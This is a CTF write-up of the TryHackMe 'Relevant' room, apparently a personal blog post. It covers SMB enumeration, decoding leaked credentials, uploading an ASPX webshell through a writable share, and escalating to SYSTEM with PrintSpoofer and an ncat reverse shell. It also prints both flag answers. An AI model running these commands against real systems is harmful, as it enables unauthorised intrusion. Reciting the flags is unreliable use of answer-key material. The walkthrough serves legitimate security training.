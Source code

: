```yaml
---
layout: post
title: Relevant
date: 2023-01-30 11:00 +0700
categories: [THM, medium]
---
```


### Introduction

[Relevant] is a medium CTF on TryHackMe. You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

I did the machine without the use of metasploit but you can use It as to complete it too.


![relevant](https://tryhackme-images.s3.amazonaws.com/room-icons/10524728b2b462e8d164efe4e67ed087.jpeg)


---

Let's start scaning the machine with nmap.

We can see some ports open.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![scan](/images/THM/relevant/Captura.PNG)

We will start looking through smb.

{ *I used "gest" like username but my intention was to use "guest" xD.* }

```sh
smbmap -u <user> -p <password> -H <IP>
```

![smbmap dirs](/images/THM/relevant/Captura1.PNG)

We can see there are 4 Folders but we only have access to two of them.

If we look the content of the folder **nt4wrksv**, we can see there is a file called **passwords.txt**

```sh
smbmap -u <user> -p <password> -r 'nt4wrksv' -H <IP>
```

![smbmap dir nt4](/images/THM/relevant/Captura2.PNG)

Let's download It.

```sh
smbmap -u <user> -p <password> -H <IP> --download 'nt4wrksv\passwords.txt'
```

![smbmap down file](/images/THM/relevant/Captura3.PNG)

If we see the content we can see is encoded in base64.

```sh
cat <filename>
```

![cat file](/images/THM/relevant/Captura4.PNG)

Time to desencode It.

```sh
echo 'code' | base64 -d
```

![base64 bob](/images/THM/relevant/Captura5.PNG)

![base64 bill](/images/THM/relevant/Captura6.PNG)

Let's try to use psexec with both users and try if we could get a shell.

```sh
python3 /usr/local/bin/psexec.py <user>@<IP>
or
psexec.py <user>@<IP>
```

![psexec bob](/images/THM/relevant/Captura8.PNG)

![psexec bill](/images/THM/relevant/Captura9.PNG)

Both trys didn't work so, It's time to look more the 2 Webs.

Web in 80 and 49663 have the same default.

![IIS web](/images/THM/relevant/Captura10.PNG)

This time I will use dirbuster to change a little the enumeration tool.

![dirbuster](/images/THM/relevant/Captura11.PNG)

The scan don't return nothing in both webs, but if we investigate a little, we can see that the smb folder is accessible via the web.

![Web dir](/images/THM/relevant/Captura12.PNG)

We're going to take advantage from our permissions, because we can write so, I uploaded a webshell.

```sh
smbmap -u <user> -p <password> -H <IP> --upload '/usr/share/webshells/aspx/cmdasp.aspx' 'nt4wrksv\cmdasp.aspx'
```

![WebShell upload](/images/THM/relevant/Captura13.PNG)

We can see It uploaded fine and we can write commands on It.

![WebShell](/images/THM/relevant/Captura14.PNG)

If we search a little we can find the user flag in the **Bob Desktop**.

```sh
type ..\..\..\Users\Bob\Desktop\user.txt
or
type C:\Users\Bob\Desktop\user.txt
```

![user flag](/images/THM/relevant/Captura15.PNG)

- User.txt
>Answer: THM{fdk4ka34vk346ksxfr21tg789ktf45}

It's time to elevate our privileges.

```sh
whoami
```

![whoami](/images/THM/relevant/Captura17.PNG)

So we look what privileges We've with our user

We can see our user have the **SeImpersonatePrivilege** which we can abuse this privilege to elevate our privileges.

If you want to know more you can search about **RootenPotato**.

```sh
whoami /priv
```

![whoami privi](/images/THM/relevant/Captura16.PNG)

In this case we are going to use [PrintSpoofer] that is a new tool more new and work better in windows 10 and Server 2016/2019.

![printspoofer github](/images/THM/relevant/Captura18.PNG)

We will upload the **PrintSpoofer** to the server.

```sh
smbmap -u <user> -p <password> -H <IP> --upload '<path to file>' 'nt4wrksv\<same name>'
```

![PrintSpoofer upload](/images/THM/relevant/Captura19.PNG)

And **ncat** too, to get a rever shell with the SYSTEM privileges.

```sh
smbmap -u <user> -p <password> -H <IP> --upload '/usr/share/windows-resources/ncat/ncat.exe' 'nt4wrksv\ncat.exe'
```

![ncat upload](/images/THM/relevant/Captura20.PNG)

Now we execute the command.

```sh
C:\inetpub\wwwroot\nt4wrksv\PrintSpoofer64.exe -c "c:\inetpub\wwwroot\nt4wrksv\ncat.exe <IP> <port> -e cmd"
```

![Execution](/images/THM/relevant/Captura21.PNG)

And if all is okay we can see we got a shell with the SYSTEM perms.

```sh
nc -lvnp 4444
whoami
```

![nc listener](/images/THM/relevant/Captura22.PNG)

Now we can check the root flag and we've complete this machine.

```sh
cd C:\Users\Administrator\Desktop
type root.txt
or
type C:\Users\Administrator\Desktop\root.txt
```

![root flag](/images/THM/relevant/Captura23.PNG)

- Root.txt
>Answer: THM{1fk5kf469devly1gl320zafgl345pv}

[relevant]:https://tryhackme.com/room/relevant
[printspoofer]:https://github.com/itm4n/PrintSpoofer
